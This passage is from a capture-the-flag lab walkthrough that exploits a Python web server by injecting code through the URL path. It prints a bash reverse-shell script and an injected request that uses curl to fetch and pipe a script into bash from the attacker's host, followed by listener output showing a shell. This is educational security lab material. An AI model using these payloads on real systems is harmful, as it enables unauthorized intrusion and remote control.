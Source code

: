 
When the web server splits on space (before the `%20`s are decoded to
spaces), it should get my injection into the `path` variable. When I
send this, I get a ping:



    root@kali# tcpdump -n -i tun0 icmp
    tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
    listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
    08:27:13.007310 IP 10.10.10.168 > 10.10.14.19: ICMP echo request, id 20509, seq 1, length 64
    08:27:13.007361 IP 10.10.14.19 > 10.10.10.168: ICMP echo reply, id 20509, seq 1, length 64



I've got code execution.

### Shell

The make things simple and limit spaces, I'll create a file in my
current folder called `shell`:



    #!/bin/bash

    bash -i >& /dev/tcp/10.10.14.19/443 0>&1



Now I'll use Python to server this, and have my injection just use
`curl` to get it and pipe it into `bash`. In Repeater:



    GET /';os.system('curl%2010.10.14.19/shell|bash');' HTTP/1.1
    Host: 10.10.10.168:8080
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
    Accept: text.md,application/.md+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Connection: close
    Upgrade-Insecure-Requests: 1
    Pragma: no-cache
    Cache-Control: no-cache



When I send that, I see a hit on the Python webserver:



    root@kali# python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    10.10.10.168 - - [01/Dec/2019 09:13:15] "GET /shell HTTP/1.1" 200 -



And then a shell on the `nc` listener as www-data:



    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.168.
    Ncat: Connection from 10.10.10.168:37652.
    www-data@obscure:/$ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
